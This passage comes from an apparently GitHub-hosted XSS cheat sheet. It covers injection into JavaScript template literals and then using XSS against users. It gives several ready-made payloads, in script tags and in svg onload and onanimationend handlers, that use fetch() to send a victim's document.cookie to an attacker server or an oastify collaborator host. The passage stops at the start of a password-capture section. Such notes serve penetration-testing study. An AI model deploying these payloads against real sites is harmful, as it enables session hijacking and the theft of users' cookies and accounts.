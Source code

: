### XSS into template literal `` 

* When the injected input is being reflected inside of backticks ` (template literals), we can execute expressions using the ${*data*} format. 

    * Example:  \<script\> var message=\`*user-input*\` \</script\>

```javascript
${alert(1)}
```

<br><br>

## XSS to Exploit Users

### Use XSS to steal user's cookies

* Inject the following payload in the vulnerable target application to steal a user's session cookie.  Here the "attacker server" could be burp collaborator for example.

```javascript
<script>
fetch('https://ATTACKER-SERVER', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
<br>

* We can inject that "fetch" function in any event handler that executes JavaScript, for example:

```javascript
<svg onload="fetch('https://277ebucws3h.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});"></svg>
```

```javascript
<style>@keyframes x{}</style>
<svg style="animation-name:x" onanimationend="fetch('https://yoqy8pwqkf.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.domain
});"></svg>
```

<br>

### Use XSS to capture passwords

* Inject the following payload in the vulnerable target application to steal a user's credentials.  Here the "attacker server" could be burp collaborator for example.
